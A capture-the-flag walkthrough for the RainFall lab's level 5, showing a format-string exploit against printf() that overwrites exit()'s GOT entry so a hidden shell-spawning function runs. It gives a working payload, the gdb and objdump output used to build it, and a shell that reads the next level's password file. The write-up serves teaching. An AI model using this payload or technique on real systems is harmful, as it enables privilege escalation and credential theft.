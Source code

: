 # Level5

As in level3, we can find an executable waiting for an input, print it and quit after press enter
```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ ./level4
bla
bla
level4@RainFall:~$
```
After analyze it with gdb we can see that the `main()` function call a function named `n()` but there is also a non-called `o()` function.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level5/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level5/source.c) for more details.  
<br/>

The `main()` only call `n()`, not very interesting so we can skip it.  
We can see a call to `fgets()`, in `n()`, wich is protect against buffer overflow attack.
```
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
After that we can see a call to `printf()` function wich is vulnerable to format string exploit!
```
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
```
Then, the non-called function `o()` launch a shell via a call to `system()`.
```
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
```
We need to manipulate `printf()` function into calling `o()` using a format string attack.  
Our main concern here is that both functions `n()` and `o()` never returns. It exits directly. Even if we overwrite something with format string vulnerability, we may not be able to use that.  
We can replace the address of exit in the GOT with the address of "o", for calling it instead of exit.  
The GOT (Global Offset Table) is a table of addresses in the data section, it contains the shared library functions addresses.  
Also GOT is writable and whenever the function `exit()` is called (GOT entry of the function is looked up first) the program will jump to that address.  
So if we replace the address of `exit()` in the GOT with the address of `o()` (with format strings), whenever that function will be called, the program will go to the modified GOT entry.  
First : find the address of `exit()` in the GOT and the address of the `o()` function.  
- exit():
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
level5@RainFall:~$
```
- o():
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
(gdb)
```
Now we have the address of `exit()`: 0x8049838 and the address of `o()`: 0x080484a4.  
We have to to print the memory until we reach the address of `exit()` :
```
level5@RainFall:~$ python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 25207825 78252078 20782520 25207825 78252078 20782520
level5@RainFall:~$
```
The address of `exit()` is at the 4th position (`61616161`).  
Finally our final format string attack will look like :  
- exit() GOT address (in little endian) : `\x38\x98\x04\x08` (4 bytes)
- o() address in decimal : `134513824` (sub 4 bytes cause of the exit() address in GOT) with modifier `%d` + modifier `%n`
*It will be quite long cause of the big value in decimal of o() address*
```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5
                                                                                                                                                                                                              512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
^C
level5@RainFall:~$ su level6
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```
Level5 passed!
